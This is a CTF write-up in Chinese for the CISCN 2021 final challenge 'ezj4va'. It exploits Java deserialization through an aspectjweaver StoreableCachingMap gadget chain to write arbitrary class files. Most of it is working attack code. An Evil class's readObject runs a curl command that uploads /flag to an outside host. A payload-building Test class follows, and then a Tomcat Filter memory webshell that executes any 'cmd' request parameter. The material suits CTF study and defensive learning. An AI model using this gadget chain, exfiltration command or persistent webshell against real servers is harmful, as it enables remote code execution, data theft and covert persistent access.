


# CISCN 2021 总决赛 ezj4va

复现地址👉[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[CISCN2021 总决赛]ezj4va)

BUU上面这道题被改成加固题了，ssh连接就能拿到源码，刚开始黑盒需要访问`/robots.txt`，返回`disable:www.zip`，再访问`/www.zip`就能下载源码了

首先查看`pom.xml`依赖

```xml
<dependencies>
    <dependency>
        <groupId>org.apache.tomcat.embed</groupId>
        <artifactId>tomcat-embed-core</artifactId>
        <version>8.5.38</version>
    </dependency>

    <!-- 本地测试加的tomcat-embed-jasper,不然会报错 -->
    <dependency>
        <groupId>org.apache.tomcat.embed</groupId>
        <artifactId>tomcat-embed-jasper</artifactId>
        <version>8.5.38</version>
    </dependency>

    <dependency>
        <groupId>org.aspectj</groupId>
        <artifactId>aspectjweaver</artifactId>
        <version>1.9.5</version>
    </dependency>

    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.72</version>
    </dependency>
</dependencies>
```

有`aspectjweaver`依赖，但没有CC依赖

> HashMap.readObject()
>
> ​    HashMap.put()
>
> ​        HashMap.hash()
>
> ​            TiedMapEntry.hashCode()
>
> ​                TiedMapEntry.getValue()
>
> ​                    LazyMap.get()
>
> ​                        SimpleCache$StoreableCachingMap.put()
>
> ​                            SimpleCache$StoreableCachingMap.writeToPath()
>
> ​                                FileOutputStream.write()

```java
private static class StoreableCachingMap extends HashMap {
    private StoreableCachingMap(String folder, int storingTimer){
			this.folder = folder;
			initTrace();
			this.storingTimer = storingTimer;
	}
    @Override
    public Object put(Object key, Object value) {
        String path = null;
        byte[] valueBytes = (byte[]) value;

        if (Arrays.equals(valueBytes, SAME_BYTES)) {
            path = SAME_BYTES_STRING;
        } else {
            path = writeToPath((String) key, valueBytes);
        }
        // ....
    }
    private String writeToPath(String key, byte[] bytes) throws IOException {
        String fullPath = folder + File.separator + key;
        FileOutputStream fos = new FileOutputStream(fullPath);
        fos.write(bytes);
        fos.flush();
        fos.close();
        return fullPath;
    }
}
```

`put`会触发写文件，`key`为文件名、`value`为文件内容

```java
CartController#add  `/cart/add`
private void add(HttpServletRequest req, HttpServletResponse resp) throws IOException {
    String skus=req.getParameter("skus"),oldCart=null;
    Cookie[] cookies = req.getCookies();
    if(cookies!=null&&cookies.length>0){
        for(Cookie cookie:cookies){
            if("cart".equals(cookie.getName()))
                oldCart=cookie.getValue();
        }
    }
    try {
        Cart cart=cartService.addToCart(skus,oldCart);
        //...
    }
}

CartServiceImpl#addToCart
public Cart addToCart(String skus, String oldCartStr) throws Exception {
    Cart toAdd =(Cart) Deserializer.deserialize(skus);
    Cart cart=null;
    if(oldCartStr!=null)
        cart= (Cart) Deserializer.deserialize(oldCartStr);
    if(cart==null)
        cart=new Cart();

    if(toAdd.getSkuDescribe()!=null){
        Map skuDescribe = cart.getSkuDescribe();
        for(Map.Entry<String,Object> entry:toAdd.getSkuDescribe().entrySet()){
            skuDescribe.put(entry.getKey(),entry.getValue());
        }
    } // ...
}
```

`skus`和`oldCartStr`均可控，分别对其反序列化得到`toAdd`和`cart`

接着遍历`toAdd.skuDescribe`的`Map.Entry`，将其键值对放入`toAdd.skuDescribe`

这里就能触发`StorableCachingMap#put`

任意写文件能做些什么？

上传JSP马？题目的配置好像不会解析JSP。。。不太懂

但题目设置了`target/classes`为`WEB-INF/classes`，可以往`classpath`写字节码文件，重写类的`readObject`方法，后面再次触发反序列化。（泰妙辣）

但如果SpringBoot生成的胖jar，这招就不管用了。可以参考这篇文章👉[LandGrey's Blog](https://landgrey.me/blog/22/)



```java
import java.io.Serializable;

public class Evil implements Serializable {
    private void readObject(java.io.ObjectInputStream s) throws Exception{
        Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","curl http://ip:port -F file=@/flag"});
        // Runtime.getRuntime().exec("calc");
    }
}
```

```java
import ciscn.fina1.ezj4va.domain.Cart;
import ciscn.fina1.ezj4va.utils.Serializer;
import javassist.ClassPool;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        Class cache = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor constructor = cache.getDeclaredConstructor(String.class, int.class);
        constructor.setAccessible(true);
        HashMap map = (HashMap) constructor.newInstance("/app/target/classes", 123);

        Cart cart = new Cart();
        cart.setSkuDescribe(map);

        Cart toAdd = new Cart();
        Map<String,Object> fileMap = new HashMap<String, Object>();
        String bytes = Base64.getEncoder().encodeToString(ClassPool.getDefault().get(Evil.class.getName()).toBytecode());
        fileMap.put("Evil.class", Base64.getDecoder().decode(bytes));
        toAdd.setSkuDescribe(fileMap);

        String oldCartStr = Serializer.serialize(cart);
        String skus = Serializer.serialize(toAdd);

        System.out.println(oldCartStr);
        System.out.println(skus);
        Evil evil = new Evil();
        System.out.println(Serializer.serialize(evil));
    }
}
```



再访问`/cart/query`，把Cookie中的cart改成`Evil`序列化的结果


若题目出不了网，试试写个`Filter`内存马

把`Evil`换成下面的`MyFilter`即可

```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;

public class MyFilter implements Filter, Serializable {
    static {
        try {
            final String name = "FilterGreet";
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

            Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);

            if (filterConfigs.get(name) == null) {
                Filter filter = new MyFilter();

                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(name);
                filterDef.setFilterClass(filter.getClass().getName());

                standardContext.addFilterDef(filterDef);

                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(name);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());

                standardContext.addFilterMapBefore(filterMap);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

                filterConfigs.put(name, filterConfig);
            }
        } catch (Exception hi) {
        }
    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
            Process process = Runtime.getRuntime().exec(req.getParameter("cmd"));
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
    }

    @Override
    public void destroy() {
    }
}
```

